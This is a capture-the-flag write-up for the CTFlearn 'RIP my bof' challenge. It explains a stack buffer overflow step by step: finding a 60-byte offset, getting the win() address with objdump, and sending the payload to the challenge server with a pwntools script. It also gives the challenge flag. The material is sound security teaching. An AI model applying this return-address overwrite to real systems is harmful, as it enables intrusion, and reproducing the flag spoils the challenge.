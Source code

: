 # RIP my bof

## [CTFlearn Challenge](https://ctflearn.com/challenge/1011)
<img src="rip my bof - solved.png">

## Solutions
### Step 1:
After downloading the tar folder, I unzipped it using ```tar -xf```. The extracted folder was named ```pwn-simple-rip```. Then
the server was connected via command ```nc thekidofarcrania.com 4902```. 

<img src="rip my bof - 1.png">

### Step 2: 
Similar to simple bof, this question tests understanding on buffer overflows. 

```
void win() {
  system("/bin/cat /flag.txt");
}
```

In this case, we want to have access to ```win()``` in order to get the flag. To do so, we need to overflow the buffer so that the return address can be overwritten to ```win()```. 

### Step 3: 
From the memory representation, I knew that the ```return address``` points at ```0x0804868b``` (red) so this indicates that I had to overflow exactly 60 bytes. 

<img src="rip my bof - 5.png">

### Step 4: 
After I have overflowed the buffer, I need to overwrite the data in the ```return address``` to the address of ```win()```. 

I used ```objdump``` to obtain the address of the function. This command displays information from object files in the machine. Using ```-d``` option, I would be able to get the assembler contents (eg. memory address) of the executable sections (such as ```win()``` in this case) in object files. 

<img src="rip my bof - 2.png">

```win() address: 08048586 ```

### Step 5: 
Since the address is in little-edian encoding (least significant byte is stored at the largest memory address - first), we have to reverse it, becoming ```86850408```. 

### Step 6: 
Given the memory address (in bytes), it is easier to write a python script to send the input string (in bytes overall) to the server, rather than entering input in the command. 

```
from pwn import *


s = b"\x5f" * 60 + b"\x86\x85\x04\x08"

p = remote("thekidofarcrania.com", 4902)
p.recv()
p.sendline(s)
p.interactive()
```

Here, I imported ```pwn``` libary, which is one of the exploit development packages available in python, to send the string to the server.

### Step 7: 
Running the python script gave me the flag!

<img src="rip my bof - 3.png">
<img src="rip my bof - 4.png">

### Flag: 
```CTflearn{c0ntr0ling_r1p_1s_n0t_t00_h4rd_abjkdlfa}```